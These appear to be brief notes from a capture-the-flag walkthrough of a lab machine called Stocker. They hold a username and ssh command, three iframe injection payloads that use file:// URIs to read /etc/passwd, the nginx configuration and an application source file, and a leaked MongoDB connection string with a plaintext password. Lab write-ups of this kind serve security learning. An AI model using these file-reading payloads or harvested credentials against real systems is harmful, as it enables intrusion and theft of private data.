10.10.11.196

Angoose
ssh Angoose@stocker.htb



<iframe src=file:///etc/passwd height=1000px width=800px</iframe>

<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>

<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>


const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";